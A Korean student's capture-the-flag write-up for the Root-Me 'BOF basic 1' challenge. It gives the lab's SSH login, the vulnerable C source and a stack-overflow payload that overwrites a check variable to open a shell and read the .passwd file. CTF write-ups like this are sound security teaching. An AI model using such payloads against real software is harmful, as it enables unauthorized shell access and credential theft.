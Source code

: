## Week4_HW_Root-Me_BofBasic1

> ### Access
* `ssh -p 2222 app-systeme-ch13@challenge02.root-me.org`   
* passwd : `app-systeme-ch13`


<hr>

* Source code
```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
<hr>

### Explanation

* 변수가 var -> check -> buf 순으로 선언되었기 때문에 
* 위 코드에서 스택의 구조는 아래와 같다.


```<pre>
[      buf[40]      ]
[ check(0x04030201) ]
[        var        ]
[        SFP        ]
[        RET        ]

```

* fgets함수로 45바이트의 문자를 받을 수 있기 때문에 
check변수를 원하는 값(0xdeadbeef)으로 덮을 수 있다.

* buf에 40byte를 채우고 check에 0xdeadbeef를 리틀엔디언 방식을 넣어주면 쉘이 실행될 것이다.
* 위의 과정을 수행할 수 있는 페이로드를 짜면 
`(python -c 'print "A"*40 + "\xef\xbe\xad\xde"') | ./ch13`
이다. 
    * "|" 기호는 "파이프라인"이라는 기호로 한명령어의 출력을 다른 명령어의 입력으로 연결하는데 사용된다.
    * 따라서 파이프라인 왼쪽에 있는 입력값을 './ch13'의 입력을 전달한다.
* _**그러나!!**_ 이대로 실행하면 "shell closed! Bye" 라는 문구가 출력되면서 쉘이 종료된다.
* 이를 방지하기 위해 cat과 같이 shell 실행 후 입력을 받아주는 명령어를 추가하여 shell이 종료되지 않고 유지되게 해준다.
* 명령어를 구분하는 구분자로 ";" 가 사용되므로 
`(python -c 'print "A"*40 + "\xef\xbe\xad\xde"' ; cat) | ./ch13` 가 최종 페이로드코드가 된다.

* 위 페이로드를 넣으면 `"Yeah dude! You win!\nOpening your shell...\n"` 라는 문구가 나오고
* 이후 `ls -a` 명령어를 통해 .passwd파일을 확인할 수 있고 `cat` 명령어를 통해 password를 취할 수 있다.

> assembly code 

* fgets함수 호출 전 인자 세팅하는 구간 유의 
* 마지막 인자부터 세팅됨
* rdi rsi rdx rcx 얘는 뭐냐 ? 아하 ! 
* 32비트 구조에서는 인자를 저장하는 레지스터가 따로 없으며 그냥 stack 에 push 됨. 
* 


